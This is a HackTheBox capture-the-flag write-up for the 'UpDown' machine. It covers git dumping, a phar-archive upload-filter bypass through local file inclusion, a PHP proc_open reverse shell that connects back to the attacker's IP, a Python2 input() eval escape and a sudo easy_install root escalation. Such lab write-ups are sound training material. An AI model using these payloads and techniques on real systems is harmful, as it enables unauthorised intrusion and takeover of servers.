# UpDown -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** UpDown (HackTheBox)
**Author:** dsec
**Date:** 2025-02-27

---

## TL;DR

### Git dump exposed dev subdomain requiring a custom header. Bypassed upload filters with phar archive trick for PHP execution. SUID Python2 binary exploited via `input()` eval. Privesc via sudo easy_install GTFOBins.

---

## Target info

- Host: `siteisup.htb`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration





The site checks if websites are up. Tested with my IP -- received connections but couldn't get a shell.



Used git-dumper on the `/dev` directory:

```bash
git-dumper http://siteisup.htb/dev git
```





Key findings from source code:

- `.htaccess` requires `Special-Dev: only4dev` header
- `index.php` blocks `bin|usr|home|var|etc` in the `page` parameter and appends `.php`
- `checker.php` blocks extensions: `php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar`
- Blocks `file://`, `data://`, `ftp://` protocols

Added `dev.siteisup.htb` to `/etc/hosts` and configured the `Special-Dev: only4dev` header in browser:









---

## Foothold

Created `shell.php` with `<?php phpinfo(); ?>` to test execution and check disabled functions.

Packed it into a phar archive with an arbitrary extension to bypass filters:

```bash
zip shell.phar shell.php
mv shell.phar shell.0xdf
```

Uploaded `shell.0xdf` and found the upload directory:



Files get deleted every 5 minutes by cron, so had to be quick:



Accessed via phar wrapper through the `page` LFI parameter:

```
http://dev.siteisup.htb/?page=phar://uploads/900ef1a94818a750d28b0f67291e9a94/shell.0xdf/shell
```





`proc_open` was not in the disabled functions list. Found using `dfunc-bypasser` tool (modified to include the `Special-Dev` header):



Created reverse shell using `proc_open`:

```php
<?php
    $descspec = array(
        0 => array("pipe", "r"),
        1 => array("pipe", "w"),
        2 => array("pipe", "w")
    );
    $cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.172/443 0>&1'";
    $proc = proc_open($cmd, $descspec, $pipes);
```

```bash
zip rev.0xdf rev.php
```

Uploaded and triggered:

```
http://dev.siteisup.htb/?page=phar://uploads/1f034331994c02c3c036237afbb4975c/rev.0xdf/rev
```



---

## Lateral movement

Found SUID binary at `/home/developer/dev/siteisup`:







Binary ran `siteisup_test.py` via Python2. The script used `input()` which in Python2 evaluates expressions via `eval()`:

```python
import requests
url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
    print "Website is up"
else:
    print "Website is down"
```

Exploited Python2 `input()`:

```python
__import__('os').system('bash')
```





Verified SSH key worked by comparing md5sums of public key and authorized_keys:



Transferred private key and SSH'd in:



---

## Privilege escalation

`sudo -l` showed `easy_install`:



GTFOBins for easy_install:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

Or manually:

```bash
mkdir /tmp/0xdf
echo -e 'import os\n\nos.system("/bin/bash")' > /tmp/0xdf/setup.py
sudo easy_install /tmp/0xdf/
```



---

## Lessons & takeaways

- Git dumps on web servers can expose source code, `.htaccess` rules, and hidden subdomains
- Phar archives bypass file extension filters -- rename `.phar` to an arbitrary extension and use the `phar://` wrapper
- Python2 `input()` evaluates expressions, making SUID binaries using it trivially exploitable
- `easy_install` runs `setup.py` from a directory, making it a reliable sudo privesc via GTFOBins
---
